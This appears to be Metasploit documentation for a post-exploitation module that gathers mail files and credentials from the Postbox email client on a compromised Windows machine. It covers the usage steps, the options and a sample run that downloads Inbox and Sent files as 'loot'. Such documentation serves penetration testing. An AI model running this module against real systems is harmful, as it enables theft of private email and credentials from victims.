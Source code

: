 ## Module Description

This post-exploitation module gathers artifacts found on Postbox related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/postbox
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/credentials/postbox) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Postbox's parent folder found
[*] Postbox's Inbox file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\INBOX
[*] Postbox Inbox downloaded
[+] File saved to:  /root/.msf4/loot/20210513064136_default_192.168.56.106_postboxINBOX_465924.bin

[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] To:<*************@outlook.jp>
[+] To:"NoReplyOneDrive"<reply-fed017787564057e-25_HTML-166935770-7231722-937213@mail.onedrive.com>
[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] From:"MicrosoftOneDrive"<email@mail.onedrive.com>
[+] From:To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:

[+] File with credentials saved:  /root/.msf4/loot/20210513064136_default_192.168.56.106_EXTRACTIONINBOX_835546.bin
[*] Postbox's parent folder found
[*] Postbox's Sent* file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\Sent-1.msf
[*] Postbox Sent-1.msf downloaded
[+] File saved to:  /root/.msf4/loot/20210513064137_default_192.168.56.106_postboxSent1.ms_354629.msf

  ```
